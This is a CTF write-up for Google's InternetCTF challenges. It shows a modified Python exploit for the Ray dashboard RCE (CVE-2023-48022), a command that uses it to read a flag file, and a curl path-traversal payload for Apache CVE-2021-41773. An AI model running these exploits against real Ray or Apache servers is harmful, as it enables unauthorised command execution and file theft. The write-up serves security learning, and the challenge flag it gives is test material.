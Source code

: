 ```yaml
---
title: "Google InternetCTF writeup"
description: "https://capturetheflag.withgoogle.com/internet"
---
```


## Mic Check

```
tap tap tap Is this thing on? Here's a flag CTF{welcome_internetctf}
```

## Exposed Ray Dashboard (known rce)

Read more about CVE-2023-48022 at : https://www.vicarius.io/vsociety/posts/the-story-of-shadowray-cve-2023-48022

Modified `exploit.py`

```
import argparse
import time
import os
import ray
from ray.job_submission import JobSubmissionClient, JobStatus
import re
import sys

# Function to submit a job to the Ray cluster
def submit_job(host, cmd):
    client = JobSubmissionClient(f"{host}")
    job_id = client.submit_job(
        entrypoint=f"{cmd}",
        runtime_env={"working_dir": "./"}
    )
    print(f"Submitted job ID: {job_id}")
    return client, job_id

# Wait for a job to reach a specified status or timeout
def wait_until_status(client, job_id, status_to_wait_for, timeout_seconds=300):
    start = time.time()
    while time.time() - start <= timeout_seconds:
        status = client.get_job_status(job_id)
        print(f"Status: {status}")
        if status in status_to_wait_for:
            break
        time.sleep(1)

# Check if the host matches the required format
def validate_host_format(host):
    if not re.match(r'^https?://\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}:\d+$', host):
        print("Error: Host must be in the format 'http(s)://<ip>:<port>'.")
        sys.exit(1)
        
if __name__ == "__main__":
    # Parse command line arguments
    parser = argparse.ArgumentParser(description="Submit a job to Ray cluster with dynamic host and command execution.")
    parser.add_argument("--host", type=str, required=True, help="The host address of the Ray cluster head node. Format: http(s)://<ip>:<port>")
    parser.add_argument("--cmd", type=str, required=True, help="The command to be executed on the Ray cluster.")
    args = parser.parse_args()
    validate_host_format(args.host)

    client, job_id = submit_job(args.host, args.cmd)

    wait_until_status(client, job_id, {JobStatus.SUCCEEDED, JobStatus.STOPPED, JobStatus.FAILED})

    # Retrieve and print logs from the job
    logs = client.get_job_logs(job_id)
    print(logs)
```

get the ip of the hosted url using `dig`

```
 python3 exploit.py --host http://34.147.80.1:1337 --cmd 'cat /flag/flag.txt'
```

## Apache CVE-2021-41773 (path traversal)

Read more about CVE-2021-41773 at : https://www.hackthebox.com/blog/cve-2021-41773-explained

```
curl http://chal-apache.internet-ctf.kctf.cloud:1337/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag/flag.txt
```

## Node-Red Exposed UI (known rce)
